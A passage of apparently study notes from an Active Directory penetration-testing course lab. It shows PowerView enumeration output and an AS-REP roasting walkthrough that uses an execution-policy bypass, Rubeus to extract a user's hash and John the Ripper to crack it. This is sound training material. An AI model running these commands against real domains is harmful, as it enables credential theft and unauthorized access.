groupmanager      
AUGUST_HANSEN     
KARL_MCCALL       
CLARICE_PEREZ     
FREDA_SERRANO     
JAMAL_RIGGS       
ROWENA_DALTON     
ROBBY_BUCKLEY     
GAVIN_CAMPOS      
VINCENT_WARE      
JERMAINE_BARBER   
EMILE_GENTRY      
BROOKS_KIRBY      
9324856555SA      
FLORINE_COTE      
CRYSTAL_FISCHER   
RENE_WILKINS      
HUNG_WOOTEN       
SOPHIA_GUY        
WAYNE_GIBBS       
student           
```

*Get details about a particular domain user*

`Get-DomainUser -Identity WAYNE_GIBBS`:
```
logoncount            : 0
badpasswordtime       : 1/1/1601 12:00:00 AM
description           : Created with secframe.com/badblood.
distinguishedname     : CN=WAYNE_GIBBS,OU=Devices,OU=HRE,OU=Tier 1,DC=research,DC=SECURITY,DC=local
objectclass           : {top, person, organizationalPerson, user}
displayname           : WAYNE_GIBBS
userprincipalname     : WAYNE_GIBBS@research.SECURITY.local
name                  : WAYNE_GIBBS
objectsid             : S-1-5-21-1693200156-3137632808-1858025440-2099
samaccountname        : WAYNE_GIBBS
codepage              : 0
samaccounttype        : USER_OBJECT
accountexpires        : NEVER
countrycode           : 0
whenchanged           : 6/2/2023 3:26:24 AM
instancetype          : 4
objectguid            : fa26e751-1564-41cf-af93-42ae576299e5
lastlogon             : 1/1/1601 12:00:00 AM
lastlogoff            : 1/1/1601 12:00:00 AM
objectcategory        : CN=Person,CN=Schema,CN=Configuration,DC=SECURITY,DC=local
dscorepropagationdata : {6/2/2023 3:28:39 AM, 6/2/2023 3:28:39 AM, 6/2/2023 3:28:39 AM, 6/2/2023 3:28:39 AM...}
memberof              : {CN=JU-qosqomant-distlist1,OU=Quarantine,DC=research,DC=SECURITY,DC=local,
                        CN=AU-luciadiaz-distlist1,OU=T1-Accounts,OU=Tier 1,OU=Admin,DC=research,DC=SECURITY,DC=local,
                        CN=HU-piloto200-admingroup1,OU=Groups,OU=FIN,OU=Tier 2,DC=research,DC=SECURITY,DC=local,
                        CN=AN-extrambot-admingroup1,OU=People,DC=research,DC=SECURITY,DC=local...}
whencreated           : 6/2/2023 3:26:24 AM
sn                    : WAYNE_GIBBS
managedobjects        : CN=AWSWLPT1000001,OU=Groups,OU=HRE,OU=Stage,DC=research,DC=SECURITY,DC=local
badpwdcount           : 0
cn                    : WAYNE_GIBBS
useraccountcontrol    : NORMAL_ACCOUNT
usncreated            : 45258
primarygroupid        : 513
pwdlastset            : 6/2/2023 3:26:24 AM
usnchanged            : 45263
```

`Get-DomainUser -Identity WAYNE_GIBBS -Properties DisplayName,MemberOf,ObjectSid,UserAccountControl | Format-List`:
```
displayname        : WAYNE_GIBBS
memberof           : {CN=JU-qosqomant-distlist1,OU=Quarantine,DC=research,DC=SECURITY,DC=local,
                     CN=AU-luciadiaz-distlist1,OU=T1-Accounts,OU=Tier 1,OU=Admin,DC=research,DC=SECURITY,DC=local,
                     CN=HU-piloto200-admingroup1,OU=Groups,OU=FIN,OU=Tier 2,DC=research,DC=SECURITY,DC=local,
                     CN=AN-extrambot-admingroup1,OU=People,DC=research,DC=SECURITY,DC=local...}
useraccountcontrol : NORMAL_ACCOUNT
objectsid          : S-1-5-21-1693200156-3137632808-1858025440-2099
```

4. **Enumerate Domain Computers**

*List details of computers in the current domain*

`Get-NetComputer`

*List specific properties for computers*

`Get-NetComputer | Select Name`:
```
name           
----           
PROD ←          
OGCWCTRX1000000
ITSWCTRX1000000
BDEWSECS1000000
AZRWVIR1000000 
BDEWSECS1000001
ESMWWKS1000000 
FINWWEBS1000000
BDEWAPPS1000000
SECWCTRX1000000
TSTWLPT1000000 
HREWAPPS1000000
OGCWAPPS1000000
AZRWWKS1000000 
BDEWSECS1000002
ESMWCTRX1000000
AZRWWKS1000001 
AWSWVIR1000000 
BDEWLPT1000000 
AWSWLPT1000000 
ESMWWKS1000001 
OGCWLPT1000000 
GOOWSECS1000000
TSTWAPPS1000000
TSTWDBAS1000000
ITSWAPPS1000000
BDEWWEBS1000000
```

5. **Enumerate Domain Groups**

*List all groups in the current domain*

`Get-NetGroup`

`Get-NetGroup | Select Name`:
```
name                                   
----                                   
WinRMRemoteWMIUsers__                  
Administrators ←                        
Users                                  
Guests                                 
Print Operators                        
Backup Operators                       
Replicator                             
Remote Desktop Users ←                  
Network Configuration Operators        
Performance Monitor Users              
Performance Log Users                  
Distributed COM Users                  
IIS_IUSRS                              
Cryptographic Operators                
Event Log Readers                      
Certificate Service DCOM Access        
RDS Remote Access Servers              
RDS Endpoint Servers                   
RDS Management Servers                 
Hyper-V Administrators                 
Access Control Assistance Operators    
Remote Management Users                
Domain Computers                       
Domain Controllers                     
Cert Publishers                        
Domain Admins ←                         
Domain Users                     
```

*List information about a specific group*

`Get-NetGroup "Domain Admins"`:
```
grouptype              : GLOBAL_SCOPE, SECURITY
admincount             : 1
iscriticalsystemobject : True
samaccounttype         : GROUP_OBJECT
samaccountname         : Domain Admins
whenchanged            : 6/2/2023 3:29:22 AM
objectsid              : S-1-5-21-1693200156-3137632808-1858025440-512
objectclass            : {top, group}
cn                     : Domain Admins ←
usnchanged             : 56554
dscorepropagationdata  : {6/2/2023 3:28:40 AM, 6/2/2023 3:28:39 AM, 6/2/2023 3:28:39 AM, 6/2/2023 3:28:38 AM...}
memberof               : {CN=DA-www-distlist1,OU=Devices,OU=AZR,OU=Tier 2,DC=research,DC=SECURITY,DC=local,
                         CN=RA-lgr-distlist1,OU=ServiceAccounts,OU=ESM,OU=Stage,DC=research,DC=SECURITY,DC=local,
                         CN=HU-alborada8-distlist1,OU=Testing,DC=research,DC=SECURITY,DC=local, CN=Denied RODC
                         Password Replication Group,CN=Users,DC=research,DC=SECURITY,DC=local...}
description            : Designated administrators of the domain
distinguishedname      : CN=Domain Admins,CN=Users,DC=research,DC=SECURITY,DC=local
name                   : Domain Admins
member                 : {CN=8851527393SA,OU=Staging,OU=Admin,DC=research,DC=SECURITY,DC=local,
                         CN=ELISE_GUZMAN,OU=Test,OU=SEC,OU=Stage,DC=research,DC=SECURITY,DC=local,
                         CN=Administrator,CN=Users,DC=research,DC=SECURITY,DC=local}
usncreated             : 12315
whencreated            : 9/27/2021 9:21:24 AM
instancetype           : 4
objectguid             : 7e82d881-f461-4006-af16-1e158b562e43
objectcategory         : CN=Group,CN=Schema,CN=Configuration,DC=SECURITY,DC=local
```

*List members of a specific group*

`Get-NetGroupMemeber "Domain Admins" | Select MemberName`:
```
MemberName
----------
8851527393SA
ELISE_GUZMAN ←
Administrator
```

*List group membership of a user*

`Get-NetGroup -UserName "ELISE_GUZMAN" | Select Name`:
```
name
----
Denied RODC Password Replication Group
AV-987-distlist1
RA-lgr-distlist1
JU-tat-distlist1
EM-kar-distlist1
EL-alc-distlist1
EL-construcc-distlist1
FR-laz-admingroup1
HU-alborada8-distlist1
Domain Admins
Domain Users
```

6. **Enumerate Domain Shares**

*List shares on a host system in the current domain*

`Find-DomainShare -ComputerName prod.research.SECURITY.local -Verbose`:
```
VERBOSE: [Find-DomainShare] TargetComputers length: 1
VERBOSE: [Find-DomainShare] Using threading with threads: 20
VERBOSE: [New-ThreadedFunction] Total number of hosts: 1
VERBOSE: [New-ThreadedFunction] Total number of threads/partitions: 1
VERBOSE: [New-ThreadedFunction] Threads executing
VERBOSE: [New-ThreadedFunction] Waiting 100 seconds for final cleanup...

VERBOSE: [New-ThreadedFunction] all threads completed
Name           Type Remark              ComputerName
----           ---- ------              ------------
ADMIN$   2147483648 Remote Admin        prod.research.security.local ←
C$       2147483648 Default share       prod.research.security.local ←
IPC$     2147483651 Remote IPC          prod.research.security.local
NETLOGON          0 Logon server share  prod.research.security.local
print$            0 Printer Drivers     prod.research.security.local
SYSVOL            0 Logon server share  prod.research.security.local ←
```

As seen above, the **SYSVOL** share is an important share as it is responsible for storing and replicating important domain-related data and files, such as Group Policy Objects (GPOs) and logon scripts. The SYSVOL share is automatically created on each domain controller in an Active Directory domain and is shared by default. 
<u>It serves as a central repository for GPOs, which are used to manage security policies, software deployment, and other configuration settings across the domain</u>. All the domain computers access this share to check the domain policies.

*Enumerate shares that the current user has read access to*

`Find-DomainShare -ComputerName prod.research.SECURITY.local -CheckShareAccess -Verbose`:
```
VERBOSE: [Find-DomainShare] TargetComputers length: 1
VERBOSE: [Find-DomainShare] Using threading with threads: 20
VERBOSE: [New-ThreadedFunction] Total number of hosts: 1
VERBOSE: [New-ThreadedFunction] Total number of threads/partitions: 1
VERBOSE: [New-ThreadedFunction] Threads executing
VERBOSE: [New-ThreadedFunction] Waiting 100 seconds for final cleanup...

VERBOSE: [New-ThreadedFunction] all threads completed
Name     Type Remark              ComputerName
----     ---- ------              ------------
NETLOGON    0 Logon server share  prod.research.security.local
print$      0 Printer Drivers     prod.research.security.local
SYSVOL      0 Logon server share  prod.research.security.local ←
```

*List active shares on the local host*

`Get-NetShare`:
```
Name         Type Remark          ComputerName
----         ---- ------          ------------
ADMIN$ 2147483648 Remote Admin    localhost ←
C$     2147483648 Default share   localhost ←
IPC$   2147483651 Remote IPC      localhost
print$          0 Printer Drivers localhost
```

7. **Enumerate GPOs and OUs**

**Group Policy Objects (GPOs)** are used to manage and control the behavior of user accounts and computer accounts within a domain. <u>Each GPO contains a collection of settings and configurations that are applied to targeted users or computers in the domain</u>.
They can be linked to sites, domains, or OUs within the Active Directory hierarchy to define their scope and targeting. Some common use cases for GPOs include setting desktop wallpaper, managing software installations, restricting access to specific features or applications, defining security settings etc. GPOs can be abused for a variety of attacks, including privilege escalation, deploying backdoors, establishing persistence etc.

**Organizational Units (OUs)** <u>are containers within Active Directory that help organize and manage objects such as users, computers, groups, and other resources for easier management and application of policies</u>. They provide a way to structure and delegate administrative control within the domain. By creating OUs, administrators can apply different GPOs to specific sets of users or computers, tailoring the policies to the unique needs of those groups. OUs can represent various aspects of an organization's structure, such as departments, geographical locations, or functional units. OUs can also be nested within each other to create a hierarchical organizational structure.

*List of GPOs in the current domain*

`Get-NetGpo`

`Get-NetGpo | Select DisplayName`:
```
displayname
-----------
Default Domain Policy ←
Default Domain Controllers Policy ←
NewUsersPolicy1
NewCompPolicy2
TestPolicy
GeneralUserPolicy
GenCompPolicy
```

*Get all OUs in the current domain*

`Get-NetOu`

`Get-NetOu | Select Name`:
```
name
----
Domain Controllers ←
Admin ←
Tier 0 ←
T0-Accounts
T0-Servers
T0-Devices
T0-Permissions
T0-Roles
Tier 1 ←
T1-Accounts
T1-Servers
T1-Devices
T1-Permissions
T1-Roles
Tier 2 ←
T2-Accounts
T2-Servers
T2-Devices
T2-Permissions
T2-Roles
Staging
```

8. **Enumerate Domain Trust & Forest Trust**

In an Active Directory environment, <u>trust represents a relationship established between two domains or forests. This relationship enables users from one domain or forest to access resources located in the other domain or forest</u>.
- **Domain Trust** enables authentication between domains within the same forest or across separate forests, facilitating resource sharing and collaboration.
- **Forest Trust** extends trust relationships beyond individual domains and encompasses the entire forest infrastructure, enabling authentication and resource access between domains in different forests.

*List all domain trusts for the current domain*

`Get-DomainTrust`:
```
SourceName      : research.SECURITY.local ←
TargetName      : SECURITY.local ←
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : WITHIN_FOREST
TrustDirection  : Bidirectional ←
WhenCreated     : 9/27/2021 9:19:53 AM
WhenChanged     : 6/10/2024 12:25:56 PM
```

We can see a bidirectional Parent-child trust that is automatically generated when a child domain is added to a parent domain.

*Get details of current forest*

`Get-NetForest`:
```
RootDomainSid         : S-1-5-21-2496296497-1864299928-297538345
Name                  : SECURITY.local ←
Sites                 : {Default-First-Site-Name}
Domains               : {research.SECURITY.local, SECURITY.local}
GlobalCatalogs        : {dc2012.SECURITY.local, prod.research.SECURITY.local}
ApplicationPartitions : {DC=DomainDnsZones,DC=research,DC=SECURITY,DC=local, DC=ForestDnsZones,DC=SECURITY,DC=local,
                        DC=DomainDnsZones,DC=SECURITY,DC=local}
ForestModeLevel       : 5
ForestMode            : Windows8Forest
RootDomain            : SECURITY.local
Schema                : CN=Schema,CN=Configuration,DC=SECURITY,DC=local
SchemaRoleOwner       : dc2012.SECURITY.local
NamingRoleOwner       : dc2012.SECURITY.local
```

*Map the trust of the forest*

`Get-NetForestTrust`:
```
TopLevelNames            : {tech.local}
ExcludedTopLevelNames    : {}
TrustedDomainInformation : {tech.local}
SourceName               : SECURITY.local ←
TargetName               : tech.local ←
TrustType                : Forest
TrustDirection           : Bidirectional ←
```

It can be seen that we have a bidirectional forest trust established between the current forest and a different forest named `tech.local`.

`Get-NetForestTrust -Forest tech.local`:
```
TopLevelNames            : {SECURITY.local}
ExcludedTopLevelNames    : {}
TrustedDomainInformation : {research.SECURITY.local, SECURITY.local}
SourceName               : tech.local ←
TargetName               : SECURITY.local ←
TrustType                : Forest
TrustDirection           : Bidirectional ←
```

*Get details of other forest*

`Get-NetForest -Forest tech.local`:
```
RootDomainSid         : S-1-5-21-1721378571-2895787438-4196780813
Name                  : tech.local ←
Sites                 : {Default-First-Site-Name}
Domains               : {tech.local}
GlobalCatalogs        : {info.tech.local}
ApplicationPartitions : {DC=ForestDnsZones,DC=tech,DC=local, DC=DomainDnsZones,DC=tech,DC=local}
ForestModeLevel       : 6
ForestMode            : Windows2012R2Forest
RootDomain            : tech.local
Schema                : CN=Schema,CN=Configuration,DC=tech,DC=local
SchemaRoleOwner       : info.tech.local
NamingRoleOwner       : info.tech.local
```

*Get all domains in the current forest*

`Get-NetForestDomain`:
```
Forest                  : SECURITY.local
DomainControllers       : {prod.research.SECURITY.local}
Children                : {} ←
DomainMode              : Windows2012R2Domain
DomainModeLevel         : 6
Parent                  : SECURITY.local
PdcRoleOwner            : prod.research.SECURITY.local
RidRoleOwner            : prod.research.SECURITY.local
InfrastructureRoleOwner : prod.research.SECURITY.local
Name                    : research.SECURITY.local ←

Forest                  : SECURITY.local
DomainControllers       : {dc2012.SECURITY.local}
Children                : {research.SECURITY.local} ←
DomainMode              : Windows8Domain
DomainModeLevel         : 5
Parent                  :
PdcRoleOwner            : dc2012.SECURITY.local
RidRoleOwner            : dc2012.SECURITY.local
InfrastructureRoleOwner : dc2012.SECURITY.local
Name                    : SECURITY.local ←
```

*Get all domains in other forest*

`Get-NetForestDomain -Forest tech.local`:
```
Forest                  : tech.local
DomainControllers       : {info.tech.local}
Children                : {}
DomainMode              : Windows2012R2Domain
DomainModeLevel         : 6
Parent                  :
PdcRoleOwner            : info.tech.local
RidRoleOwner            : info.tech.local
InfrastructureRoleOwner : info.tech.local
Name                    : tech.local ←
```

*Enumerate all the trusts*

`Get-DomainTrustMapping`:
```
SourceName      : research.SECURITY.local ←
TargetName      : SECURITY.local ←
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : WITHIN_FOREST
TrustDirection  : Bidirectional ←
WhenCreated     : 9/27/2021 9:19:53 AM
WhenChanged     : 6/10/2024 12:25:56 PM

SourceName      : SECURITY.local
TargetName      : research.SECURITY.local
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : WITHIN_FOREST
TrustDirection  : Bidirectional
WhenCreated     : 9/27/2021 9:19:53 AM
WhenChanged     : 6/10/2024 12:25:57 PM

SourceName      : SECURITY.local ←
TargetName      : tech.local ←
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : FOREST_TRANSITIVE
TrustDirection  : Bidirectional ←
WhenCreated     : 5/31/2023 10:06:26 AM
WhenChanged     : 6/10/2024 12:25:53 PM

SourceName      : tech.local
TargetName      : SECURITY.local
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : FOREST_TRANSITIVE
TrustDirection  : Bidirectional
WhenCreated     : 5/31/2023 10:05:46 AM
WhenChanged     : 6/10/2024 12:25:53 PM
```

9. **Enumerate ACLs**

**Access Control Lists (ACLs)** <u>are security mechanisms used in computer systems and networks to regulate access to resources</u>. It consist of ACEs (Access Control Entries), which are the individual entries within an ACL that specify permissions for a particular user or group. Each ACE contains information about the security principal (user or group), the specific permissions granted or denied, and whether the ACE is inherited from a parent object or explicit to the current object. <u>ACEs provide granular control over resource access</u> by allowing administrators to define fine-tuned permissions for different entities. <u>Attackers can abuse misconfigured or overly permissive ACLs in Active Directory to escalate privileges, gain unauthorized access, or manipulate permissions</u>.

There are two types of ACLs that can be found within the security descriptor of a securable object. These are the **Discretionary ACL (DACL)** and the **System ACL (SACL)**.

- **DACL** (often mentioned as the ACL) <u>specifies the permissions (allowed or denied) granted to trustees (a user or group), on an object</u>.
- **SACL** logs audit messages that track both successful and failed attempts to access the object.

*List ACLs associated with a specific object*

`Get-ObjectAcl -SamAccountName "Users" -ResolveGUIDs`:
```
AceType               : AccessAllowed ←
ObjectDN              : CN=Users,DC=research,DC=SECURITY,DC=local ←
ActiveDirectoryRights : GenericAll ←
OpaqueLength          : 0
ObjectSID             : 
InheritanceFlags      : None
BinaryLength          : 20
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-18
AccessMask            : 983551
AuditFlags            : None
AceFlags              : None
AceQualifier          : AccessAllowed

AceType               : AccessAllowed
ObjectDN              : CN=Users,DC=research,DC=SECURITY,DC=local
ActiveDirectoryRights : CreateChild, DeleteChild, Self, WriteProperty, ExtendedRight, GenericRead, WriteDacl, 
                        WriteOwner
OpaqueLength          : 0
ObjectSID             : 
InheritanceFlags      : None
BinaryLength          : 36
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-1693200156-3137632808-1858025440-512
AccessMask            : 917951
AuditFlags            : None
AceFlags              : None
AceQualifier          : AccessAllowed
```

`Get-DomainObjectAcl -Identity WAYNE_GIBBS -ResolveGUIDs`:
```
AceQualifier           : AccessAllowed ←
ObjectDN               : CN=WAYNE_GIBBS,OU=Devices,OU=HRE,OU=Tier 1,DC=research,DC=SECURITY,DC=local ←
ActiveDirectoryRights  : ReadProperty ←
ObjectAceType          : User-Account-Restrictions
ObjectSID              : S-1-5-21-1693200156-3137632808-1858025440-2099
InheritanceFlags       : None
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-1693200156-3137632808-1858025440-553
AccessMask             : 16
AuditFlags             : None
IsInherited            : False
AceFlags               : None
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=WAYNE_GIBBS,OU=Devices,OU=HRE,OU=Tier 1,DC=research,DC=SECURITY,DC=local
ActiveDirectoryRights  : ReadProperty
ObjectAceType          : User-Logon
ObjectSID              : S-1-5-21-1693200156-3137632808-1858025440-2099
InheritanceFlags       : None
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-1693200156-3137632808-1858025440-553
AccessMask             : 16
AuditFlags             : None
IsInherited            : False
AceFlags               : None
InheritedObjectAceType : All
OpaqueLength           : 0
```

*Search for interesting ACEs*

`Find-InterestingDomainAcl -ResolveGUIDs`

`Find-InterestingDomainAcl -ResolveGUIDs | Select IdentityReferenceName,ObjectDN,ActiveDirectoryRights`:
```
IdentityReferenceName    ObjectDN                         ActiveDirectoryRights
---------------------    --------                         ---------------------
OGCWCTRX1000000$         DC=research,DC=SECURITY,DC=local            GenericAll
57-elsecreto-admingroup1 DC=research,DC=SECURITY,DC=local            GenericAll
JI-bar-distlist1         DC=research,DC=SECURITY,DC=local            GenericAll
TSTWCTRX1000000$         DC=research,DC=SECURITY,DC=local            GenericAll
CR-nowayiamt-distlist1   DC=research,DC=SECURITY,DC=local            GenericAll
TSTWWKS1000000$          DC=research,DC=SECURITY,DC=local            GenericAll
AWSWWEBS1000000$         DC=research,DC=SECURITY,DC=local            GenericAll
DE-valverdel-distlist1   DC=research,DC=SECURITY,DC=local            GenericAll
OGCWCTRX1000000$         OU=Tier 1,DC=research,DC=SECU...            GenericAll
57-elsecreto-admingroup1 OU=Tier 1,DC=research,DC=SECU...            GenericAll
JI-bar-distlist1         OU=Tier 1,DC=research,DC=SECU...            GenericAll
DA-f13-distlist1         OU=Tier 1,DC=research,DC=SECU...            GenericAll
RO-marseilla-distlist1   OU=Tier 1,DC=research,DC=SECU...            GenericAll
TSTWCTRX1000000$         OU=Tier 1,DC=research,DC=SECU...            GenericAll
CR-nowayiamt-distlist1   OU=Tier 1,DC=research,DC=SECU...            GenericAll
TSTWWKS1000000$          OU=Tier 1,DC=research,DC=SECU...            GenericAll
AWSWWEBS1000000$         OU=Tier 1,DC=research,DC=SECU...            GenericAll
DE-valverdel-distlist1   OU=Tier 1,DC=research,DC=SECU...            GenericAll
TSTWCTRX1000000$         OU=BDE,OU=Tier 1,DC=research,...            GenericAll
STACI_GOODMAN            OU=BDE,OU=Tier 1,DC=research,...            GenericAll
OGCWCTRX1000000$         OU=BDE,OU=Tier 1,DC=research,...            GenericAll
57-elsecreto-admingroup1 OU=BDE,OU=Tier 1,DC=research,...            GenericAll
```

*Search for a specific Active Directory right associated with the specified object*

`Get-ObjectAcl -SamAccountName WAYNE_GIBBS -ResolveGUIDs | ? {$_.ActiveDirectoryRights -eq "GenericAll"}`:
```
AceType               : AccessAllowed
ObjectDN              : CN=WAYNE_GIBBS,OU=Devices,OU=HRE,OU=Tier 1,DC=research,DC=SECURITY,DC=local ←
ActiveDirectoryRights : GenericAll ←
OpaqueLength          : 0
ObjectSID             : S-1-5-21-1693200156-3137632808-1858025440-2099
InheritanceFlags      : None
BinaryLength          : 36
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-1693200156-3137632808-1858025440-512
AccessMask            : 983551
AuditFlags            : None
AceFlags              : None
AceQualifier          : AccessAllowed

AceType               : AccessAllowed
ObjectDN              : CN=WAYNE_GIBBS,OU=Devices,OU=HRE,OU=Tier 1,DC=research,DC=SECURITY,DC=local
ActiveDirectoryRights : GenericAll
OpaqueLength          : 0
ObjectSID             : S-1-5-21-1693200156-3137632808-1858025440-2099
InheritanceFlags      : None
BinaryLength          : 24
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-32-548
AccessMask            : 983551
AuditFlags            : None
AceFlags              : None
AceQualifier          : AccessAllowed
```

Note that `GenericAll` is a highly permissive right that typically provides full control over the object.

10. **Find Kerberoastable accounts**

**Kerberoasting** is a post-exploitation attack technique aimed at <u>acquiring the password hash of an Active Directory user account associated with a Service Principal Name (SPN)</u>.
An SPN is an attribute <u>that ties a service to a user account within Active Directory</u>.
Cracked passwords can then be used for lateral movement, privilege escalation or presistence.

*Identify user accounts with non-null Service Principal Name (SPN)*

`Get-NetUser -SPN | Select SamAccountName,ServicePrincipalName`:
```
samaccountname     serviceprincipalname                         
--------------     --------------------                         
MARIBEL_LE         CIFS/AZRWLPT1000000                          
JENNA_RYAN         CIFS/FSRWSECS1000001                         
PHILIP_POLLARD     CIFS/FSRWWEBS1000000                         
PANSY_NELSON       {https/OGCWAPPS1000000, CIFS/GOOWAPPS1000000}
ELI_FORD           ftp/AZRWAPPS1000000                          
GALE_LOTT          ftp/BDEWSECS1000000                          
MARIE_PACE         ftp/ESMWAPPS1000001                          
SYDNEY_BLANKENSHIP ftp/ESMWCTRX1000001                          
9324856555SA       ftp/ESMWWKS1000001                           
BENNETT_KIDD       ftp/TSTWLPT1000003                           
ORLANDO_HAMILTON   https/ESMWAPPS1000001                        
NONA_JOHNSON       https/ESMWCTRX1000001                        
THAD_KERR          https/FINWWKS1000000                         
LOWELL_GRIFFIN     https/FSRWSECS1000000                        
krbtgt             kadmin/changepw                              
ALEXIS_BARTLETT    kafka/BDEWLPT1000000                         
JUNE_MOLINA        kafka/BDEWSECS1000003                        
KARLA_RASMUSSEN    kafka/BDEWWKS1000000                         
CHRISTOPER_WATKINS kafka/TSTWWKS1000002                         
DEVON_HOOD         MSSQL/AWSWAPPS1000000                        
HELENA_THOMPSON    MSSQL/AWSWWEBS1000000                        
MARIO_CAMACHO      MSSQL/AZRWLPT1000001                         
TESSA_HAHN         {POP3/BDEWVIR1000000, MSSQL/BDEWVIR1000000} ←
```

11. **Find AS-REP roastable accounts**

**AS-REP roasting** is another offensive technique used to <u>obtain the password hashes of user accounts that have Kerberos preauthentication disabled</u>. This method enables attackers to steal the hashes and subsequently attempt to crack them offline.

*Identify user accounts that have Pre-Authentication disabled*

`Get-NetUser -PreauthNotRequired | Select SamAccountName,UserAccountControl`:
```
samaccountname                  useraccountcontrol
--------------                  ------------------
NONA_JOHNSON      NORMAL_ACCOUNT, DONT_REQ_PREAUTH
DONOVAN_HOOD      NORMAL_ACCOUNT, DONT_REQ_PREAUTH
VIRGIL_BOYD       NORMAL_ACCOUNT, DONT_REQ_PREAUTH
ARLENE_HART       NORMAL_ACCOUNT, DONT_REQ_PREAUTH
ALICIA_TRAVIS     NORMAL_ACCOUNT, DONT_REQ_PREAUTH
ARTHUR_BRUCE      NORMAL_ACCOUNT, DONT_REQ_PREAUTH
DEVIN_HOLMES      NORMAL_ACCOUNT, DONT_REQ_PREAUTH
TYLER_HATFIELD    NORMAL_ACCOUNT, DONT_REQ_PREAUTH
LAVERN_STOKES     NORMAL_ACCOUNT, DONT_REQ_PREAUTH
ALEXANDRIA_DAY    NORMAL_ACCOUNT, DONT_REQ_PREAUTH
JODY_MCFADDEN     NORMAL_ACCOUNT, DONT_REQ_PREAUTH
LARA_JUAREZ       NORMAL_ACCOUNT, DONT_REQ_PREAUTH
PRINCE_JOSEPH     NORMAL_ACCOUNT, DONT_REQ_PREAUTH
BETH_SPENCE       NORMAL_ACCOUNT, DONT_REQ_PREAUTH
MARIE_RASMUSSEN   NORMAL_ACCOUNT, DONT_REQ_PREAUTH
8295340851SA      NORMAL_ACCOUNT, DONT_REQ_PREAUTH
DARIO_LEBLANC     NORMAL_ACCOUNT, DONT_REQ_PREAUTH
PIERRE_MCCLAIN    NORMAL_ACCOUNT, DONT_REQ_PREAUTH
CATHRYN_ALEXANDER NORMAL_ACCOUNT, DONT_REQ_PREAUTH
RICKY_CONLEY      NORMAL_ACCOUNT, DONT_REQ_PREAUTH
```

---

## Active Directory Privilege Escalation

### AS-REP Roasting - Video/Lab

**AS-REP Roasting** is a technique used to exploit a weakness in the Kerberos authentication protocol, commonly used in Windows Active Directory environments. <u>AS-REP Roasting specifically targets a vulnerability in the way Kerberos handles authentication requests</u>.

In the Kerberos protocol, when a user wants to authenticate to a service, he send an Authentication Service Request (AS-REQ) to the Key Distribution Center (KDC). The KDC then responds with an <u>Authentication Service Reply (AS-REP), which includes a ticket-granting ticket (TGT). The TGT is encrypted using the user's password hash</u>.

AS-REP Roasting takes advantage of the fact that <u>some user accounts in Active Directory may have the "Do not require Kerberos preauthentication" option enabled. This option allows the AS-REP to be requested without the need for the user's password</u>.

<u>The attacker queries the Active Directory to find accounts with the "Do not require Kerberos preauthentication" option enabled, and requests an AS-REP for these accounts. Since the TGT is encrypted with the user's password hash, the attacker can attempt to crack it offline to obtain the plaintext password</u>.

#### Lab Environment

In this lab environment, GUI access to a Domain user called Research/Student on a Windows Server 2012 machine, which serves as your workstation. The workstation is vulnerable to AS-REP Roasting attack.

Your task is to identify accounts with the "Do not require Kerberos preauthentication" option enabled in Active Directory. By exploiting this vulnerability, you aim to capture AS-REP responses, extract password hashes, and crack the hash of another domain user in the Active Directory domain.

**Objective**: Identify accounts vulnerable to AS-REP Roasting and gain access to another domain user within Active Directory.

Below are the tasks that you need to perform:
1. <u>Identify vulnerable account with enabled "Do not require preauthentication" option</u>. 
2. <u>Exploit AS-REP Roasting to extract password hashes</u>.
3. <u>Crack hashes</u> for plaintext passwords.

The best tools for this lab are:
- Rubeus
- JohnTheRipper
- PowerView.ps1.

#### Lab Solution

`powershell -ep bypass`: to bypass the execution policy to allow running scripts.

`cd C:\Tools`, `Import-Module .\PowerView.ps1`: to import the [PowerView module](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1).

`GetDomainUser | Where-Object { $_.UserAccountControl -like "*DONT_REQ_PREAUTH*" }`: to get the AS-REP roastable users.
(Using PowerView to list users with the "Do not require Kerberos preauthentication" option enabled, making them vulnerable to AS-REP Roasting attacks.)

`.\Rubeus.exe asreproast /user:johnny /outfile:$HOME\Desktop\user_hash.txt`: to perform AS-REP roasting on a specific user and save the hash to a .txt file.
(Using Rubeus to request an AS-REP response for the specified user ('johnny') and save the resulting hash to a file for later cracking.)

`Expand-Archive -Path .\johnTheRipper.zip -DestinationPath .\johnTheRipper`, `.\johnTheRipper\john-1.9.0-jumbo-1-win64\run\john.exe $HOME\Desktop\user_hash.txt --format=krb5asrep --wordlist=.\10k-worst-pass.txt`: to extract John the Ripper and use it to crack the AS-REP roasted hash using a wordlist.
(Using John the Ripper, a popular password cracking tool, to crack the AS-REP roasted hash obtained earlier. The cracking process uses a specified wordlist to attempt to find the plaintext password.)

#### Lab Execution

`powershell -ep bypass`

`cd C:\Tools`, `ls`:
```
    Directory: C:\Tools

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        9/22/2021  12:12 PM                ADModule
d-----        6/12/2023   5:24 AM                ADRecon
d-----        6/12/2023   5:00 AM                BloodHound
d-----        6/12/2023   5:20 AM                DomainPasswordSpray
d-----         6/5/2023   8:33 AM                Ghostpack-CompiledBinaries
d-----        9/22/2021  12:12 PM                hashcat
d-----         6/5/2023   8:46 AM                impacket
d-----         6/5/2023   8:46 AM                impacket-windows-binaries
d-----         6/5/2023   8:31 AM                kekeo
d-----        9/22/2021  12:13 PM                kekeo_one
d-----        9/22/2021  12:13 PM                kerberoast-Python2
d-----        9/22/2021  12:13 PM                kerberoast-Python3
d-----        9/22/2021  12:13 PM                Nishang
